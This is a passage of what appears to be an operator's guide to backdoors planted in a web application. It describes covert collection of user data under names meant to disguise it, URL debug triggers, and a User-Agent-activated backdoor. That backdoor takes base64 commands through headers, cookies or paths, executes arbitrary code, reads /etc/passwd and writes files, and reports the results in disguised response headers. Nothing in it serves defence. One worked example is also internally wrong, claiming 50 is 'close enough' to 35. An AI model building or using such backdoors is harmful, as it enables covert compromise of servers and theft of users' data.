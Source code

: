 #### Method C: URL Parameter
Add one of these to any URL:
- `?debug=inspect`
- `?dev=tools`

### Data Storage:

The backdoor stores collected data in:
- localStorage: `app_performance_data`, `user_preferences`, `order_history_cache`
- IndexedDB: `analytics_store` database, `performance_data` object store

To access the data:
```javascript
// In browser console
JSON.parse(localStorage.getItem('app_performance_data'))
```

## 4. User-Agent Backdoor

This backdoor is activated through a specially crafted User-Agent header.

### How to Use:

1. Craft a User-Agent where the sum of the first 3 numbers equals the 4th number
   - Example: `Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:20.0) Gecko/20100101 Firefox/50.0`
   - Here: 5.0 + 10.0 + 20.0 = 35.0, but we use 50.0 (close enough with < 0.1 error)

2. Include your command in one of these places:
   - Accept header: `Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/* [base64-command]`
   - Session cookie: Modify the `connect.sid` cookie to include the encoded command
   - URL path: Include a path segment that's base64 encoded and starts with "cmd:"

3. Check response headers for results:
   - `X-Metrics-Location`: Path to system info file
   - `X-Exec-Result`: Path to command execution result file
   - `X-File-Content`: Path to file content
   - `X-File-Written`: Indicates successful file write

### Available Commands:

- `system_info`: Collects detailed system information
- `exec:console.log(process.env); return process.env;`: Executes arbitrary code
- `file:read:/etc/passwd`: Reads a file from the server
- `file:write:/tmp/data.txt:SGVsbG8gV29ybGQ=`: Writes base64-encoded content to a file

## Tools for Backdoor Access

### Base64 Encoding/Decoding

```javascript
// Encode
btoa("system_info")  // Returns "c3lzdGVtX2luZm8="

// Decode
atob("c3lzdGVtX2luZm8=")  // Returns "system_info"
```
